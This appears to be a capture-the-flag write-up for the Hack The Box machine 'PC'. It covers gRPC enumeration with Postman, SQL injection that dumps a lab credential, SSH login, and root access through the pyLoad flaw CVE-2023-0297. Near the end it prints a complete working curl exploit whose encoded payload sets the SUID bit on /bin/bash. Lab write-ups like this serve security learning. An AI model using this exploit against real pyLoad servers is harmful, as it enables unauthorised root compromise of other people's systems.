

## Enumeration
Initial nmap:
```
Nmap scan report for 10.10.11.214
Host is up (0.047s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?
<...SNIP...>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.03 seconds
```
There is very little information right out the gate, only a port that nmap fails to identify. However, quick google searching shows that this port is used in [gRPC API](https://xrpl.org/configure-grpc.html). Interacting with it requires a specific protocol, so we need to use a tailored program.
While I initially started enumeration with grpc_cli and [this resource](https://medium.com/@at_ishikawa/use-grpc-cli-to-request-a-grpc-server-37219b33c94b), I had a lot of trouble passing a login token and switched to [Postman API](https://www.postman.com/). As such, I will cover only using Postman from the beginning.
### Interacting with gRPC via Postman
To use, simply extract the tarball and run `Postman` binary:
```
┌──(kali㉿kali)-[~/Documents/pc]
└─$ tar -xvf postman-linux-x64.tar.gz 
Postman/
Postman/app/
Postman/app/icons/
<...SNIP...>
Postman/app/locales/ru.pak
Postman/Postman
┌──(kali㉿kali)-[~/Documents/pc]
└─$ cd Postman 

┌──(kali㉿kali)-[~/Documents/pc/Postman]
└─$ ls
app  Postman

┌──(kali㉿kali)-[~/Documents/pc/Postman]
└─$ ./Postman               
```
The GUI will open up, and we can create an account or skip for now:

We can set up our request first by selecting gRPC:

Now when we supply the URL, API methods will be loaded automatically thanks to server reflection query:

First, we can try to register a user. Once again, the query is made easy with Postman's "use example message" feature. It will create for us a structured JSON message with all necessary parameters. For my account, I edited the example to have a username/password of `asdf`.

Next, we can log in. The server responds with giving us an id number. Notice also, the Trailers tab. This will contain our login token, which we must supply for logged-in activities.

Selecting the Trailers tab we can view:

To use this token, we can go to the Metadata tab, and add the key as 'token' and the value the copied value from Trailers, omitting the b''.

Finally, we can use the getInfo function. "Use Example Message" will again auto-suggest a valid JSON request, that we can use to supply our own id value:

### SQL Injection in getInfo function
After trying several things, we might learn that this API is vulnerable to SQL injection. In the below example, I use UNION injection to insert the number '1' in the response:

First, we can determine the database type by enumerating versions. This way, I find that the service is using sqlite:

Using a query from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md), I am able to dump databases. We are likely already seeing `messages`, and `accounts` will have interesting information.

Next, enumerating the columns in table `accounts`:

Seeing `\n\t` simply refers to a newline, followed by tab indentation. There are 2 column entries, `username` and `password`. First, finding `password`:

Now with a password, we can find a matching username:

Although we have a username, this does not really seem like a password that a user 'admin' would have. With my current injection, I am just retrieving the first entry in the `username` field. However, we can be extra sure to match the username & password by using WHERE:

Finally, we have a credential pair of `sau:HereIsYourPassWord1431`. Fortunately, this is enough to gain entry into the system. We are able to use ssh:
```bash
┌──(kali㉿kali)-[~/Documents/Academy/sysmon]
└─$ ssh sau@10.10.11.214      
<...SNIP..>
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
```
## Privilege Escalation
### Internal web server pyLoad
Enumerating open ports, we find an internal port not available to us earlier:
```bash
sau@pc:~$ netstat -ntlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```
Port 8000 is common for web applications. We can do a very fast and easy check with a `curl` request:
```bash
sau@pc:~$ curl localhost:8000
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=http%3A%2F%2Flocalhost%3A8000%2F">/login?next=http%3A%2F%2Flocalhost%3A8000%2F</a>. If not, click the link.
```
There is a webpage here, and we can see already that there is login involved. In order to get a better view, we can utilize ssh port forwarding:
```
$ ssh -L 8000:localhost:8000 sau@10.10.11.214
```
Now when we visit `localhost:8000` in our browser, we can see the web login page:

A few basic credential attempts did not work. 
### RCE as root from pyLoad vulnerability (CVE-2023-0297)
Searching a little more, I find [this report on unauthenticated RCE in pyLoad](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/). Although I wasn't finding an easy way to see pyLoad's version number, the exploit does not seem volitile, and so I gave it a shot. Note that the payload has been altered to be `pyimport os;os.system("chmod +s /bin/bash")`, which is different from the article.
```bash
curl -i -s -k -X $'POST' -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29;f=function%20f2(){};&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```
Executing the command as user `sau`:
```bash
sau@pc:/opt/app$ curl -i -s -k -X $'POST' -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29;f=function%20f2(){};&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Thu, 05 Oct 2023 01:35:19 GMT
Server: Cheroot/8.6.0

Could not decrypt
sau@pc:/opt/app$ bash -p
bash-5.0# whoami
root
```
Looks like pyLoad is vulnerable, and we are now root!
## Reflection
I found this box to be simple and clean, without much distractions. Interacting with gRPC was the biggest challenge, and I still find it annoying that using grpc-cli was so problematic. However, once the worst is passed, exploiting the vulnerabilities was quite stress-free.
